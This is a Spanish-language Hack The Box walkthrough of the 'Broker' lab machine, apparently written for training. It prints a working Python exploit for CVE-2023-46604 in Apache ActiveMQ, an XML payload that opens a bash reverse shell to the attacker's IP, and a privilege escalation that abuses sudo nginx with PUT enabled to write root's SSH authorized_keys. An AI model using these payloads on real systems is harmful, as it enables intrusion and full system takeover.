








---

# Descripcion

Broker es una máquina Linux de dificultad fácil de Hack The Box que explota una vulnerabilidad de ejecución remota de código (RCE) en Apache ActiveMQ mediante la CVE-2023-46604 para conseguir acceso inicial. Durante la escalada de privilegios, aprovecharemos una configuración insegura de Nginx que permite ejecutarlo como root y modificar archivos del sistema, obteniendo finalmente acceso completo a la máquina.

---

# Enumeracion

## Nmap

> Comenzamos realizando un escaneo completo de puertos para identificar los servicios expuestos en la máquina.

```bash
nmap -p- --open --min-rate 5000 -Pn -n -sS -v 10.129.18.252
```



> Una vez identificados los puertos abiertos, realizamos un segundo escaneo para obtener más información sobre los servicios y sus versiones, utilizando los scripts predeterminados de Nmap.

```bash
nmap -p22,80,1883,5672,8161,35815,61613,61614,61616 -sC -sV 10.129.18.252
```





## Web

> Utilizamos WhatWeb para identificar las tecnologías empleadas por el servidor web.

```bash
whatweb http://broker.htb
```




> Accedemos al servidor web para comprobar qué información podemos obtener.



> Buscando información sobre `Apache ActiveMQ OpenWire`, encontramos que la versión `5.15.15` es vulnerable a una ejecución remota de comandos (RCE) mediante la vulnerabilidad **CVE-2023-46604**.

# Shell como ActiveMQ

## CVE-2023-46604

> Para explotarla, vamos a utilizar el siguiente exploit:

```text
https://github.com/evkl1d/CVE-2023-46604/tree/main
```

> Necesitaremos dos archivos para ejecutar el exploit: un script de Python que enviará el paquete malicioso a ActiveMQ y un archivo XML que contendrá los comandos que queremos ejecutar en la máquina víctima.

> Guardamos el siguiente código en un archivo llamado `test.py`:

```python
import socket
import argparse

def main(ip, port, url):
    if not ip or not url:
        print("Usage: script.py -i <ip> -p <port> -u <url>")
        return
    
    banner()
    
    class_name = "org.springframework.context.support.ClassPathXmlApplicationContext"
    message = url

    header = "1f00000000000000000001"
    body = header + "01" + int2hex(len(class_name), 4) + string2hex(class_name) + "01" + int2hex(len(message), 4) + string2hex(message)
    payload = int2hex(len(body) // 2, 8) + body
    data = bytes.fromhex(payload)

    print("[*] Target:", f"{ip}:{port}")
    print("[*] XML URL:", url)
    print()
    print("[*] Sending packet:", payload)

    conn = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    conn.connect((ip, int(port)))
    conn.send(data)
    conn.close()

def banner():
    print("     _        _   _           __  __  ___        ____   ____ _____ 
    / \\   __| |_(\_)_   _____|  \\/  |/ _ \\      |  _ \\ / __| ____|
   / _ \\ / __| __| \\ \\ / / _ \\ |\\/| | | | |_____| |_) | |   |  _|  
  / ___ \\ (__| |_| |\\ V /  __/ |  | | |_| |_____|  _ <| |___| |___ 
 /_/   \\_\\___|\\__|_| \\_/ \\___|_|  |_|\\___/     |_| \\_\\____|_____|
")

def string2hex(s):
    return s.encode().hex()

def int2hex(i, n):
    if n == 4:
        return format(i, '04x')
    elif n == 8:
        return format(i, '08x')
    else:
        raise ValueError("n must be 4 or 8")

if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument("-i", "--ip", help="ActiveMQ Server IP or Host")
    parser.add_argument("-p", "--port", default="61616", help="ActiveMQ Server Port")
    parser.add_argument("-u", "--url", help="Spring XML Url")
    args = parser.parse_args()
    
    main(args.ip, args.port, args.url)
```

> En el segundo archivo, que guardaremos como `poc.xml`, tendremos que sustituir la dirección IP por nuestra IP de atacante y configurar el puerto que utilizaremos para recibir la reverse shell.

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="
http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
   <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
       <constructor-arg>
       <list>
           <value>bash</value>
           <value>-c</value>
           <value>bash -i >&amp; /dev/tcp/10.10.14.91/7777 0>&amp;1</value>
       </list>
       </constructor-arg>
   </bean>
</beans>
```

> El XML utiliza `ProcessBuilder` para ejecutar una shell de Bash que establece una conexión inversa hacia nuestra máquina.

> Primero, ponemos Netcat a la escucha en el puerto `7777`, que es el mismo que hemos configurado en el archivo XML.

```bash
nc -nvlp 7777
```

> A continuación, desde la misma carpeta donde tenemos guardado `poc.xml`, levantamos un servidor HTTP. La máquina víctima solicitará este archivo para cargar la configuración maliciosa y ejecutar los comandos definidos en él.

```bash
python3 -m http.server 9000
```

> Ejecutamos el script indicando la IP de la máquina víctima, el puerto de ActiveMQ y la URL desde la que podrá descargar nuestro archivo XML.

```bash
python3 test.py -i 10.129.18.252 -p 61616 -u http://10.10.14.91:9000/poc.xml
```



# Shell como root

## Enumeracion

> Recibimos correctamente la reverse shell y conseguimos acceso a la máquina. Una vez dentro, vamos a enumerar los permisos disponibles mediante `sudoers`.

```bash
sudo -l
```



## Ngix - Sudoers

> Comprobamos que podemos ejecutar `nginx` como `root` mediante `sudo` sin necesidad de proporcionar una contraseña. Vamos a aprovechar estos permisos para conseguir acceso al usuario `root`.

> Ejecutamos el siguiente comando para crear un archivo de configuración personalizado:

```bash
cat << EOF > /tmp/pwn.conf
user root;
worker_processes 4;
pid /tmp/nginx.pid;
events {
        worker_connections 768;
}
http {
    server {
        listen 1339;
        root /;
        autoindex on;
        dav_methods PUT;
    }
}
EOF
```

> Este comando crea el archivo `/tmp/pwn.conf`, que contiene nuestra configuración personalizada de Nginx.
>
> - `user root`: indica que los procesos de Nginx se ejecutarán con el usuario `root`.
> - `worker_processes 4`: establece cuatro procesos de trabajo.
> - `pid /tmp/nginx.pid`: guarda el PID de Nginx en `/tmp`.
> - `listen 1339`: configura el servidor para escuchar en el puerto `1339`.
> - `root /`: establece el directorio raíz del servidor web en `/`, permitiéndonos acceder al sistema de archivos.
> - `autoindex on`: permite listar el contenido de los directorios.
> - `dav_methods PUT`: habilita el método HTTP `PUT`, que nos permitirá crear o modificar archivos.

> Una vez creado el archivo de configuración, ejecutamos Nginx con privilegios de `sudo`:

```bash
sudo nginx -c /tmp/pwn.conf
```


> Ahora vamos a conseguir acceso al usuario `root` creando un par de claves SSH. Posteriormente, utilizaremos el método HTTP `PUT` que hemos habilitado en Nginx para introducir nuestra clave pública en el archivo `authorized_keys` del usuario `root`. De esta forma, podremos autenticarnos utilizando nuestra clave privada.

> Generamos un nuevo par de claves SSH:

```bash
ssh-keygen
```

> A continuación, ejecutamos el siguiente comando para subir nuestra clave pública al directorio `.ssh` de `root`, guardándola como `authorized_keys`.

```bash
curl -X PUT localhost:1339/root/.ssh/authorized_keys -d "$(cat .ssh/id_rsa.pub)"
```

> Una vez subida la clave pública, en nuestra máquina atacante le asignamos los permisos `600` a la clave privada `id_rsa`, necesarios para poder utilizarla mediante SSH.

```bash
cd ~/.ssh
chmod 600 id_rsa
```

> Por último, nos conectamos mediante SSH al usuario `root`, indicando nuestra clave privada:

```bash
ssh root@localhost -i id_rsa
```



> ¡Acceso conseguido! Hemos escalado privilegios correctamente y obtenido acceso como `root`.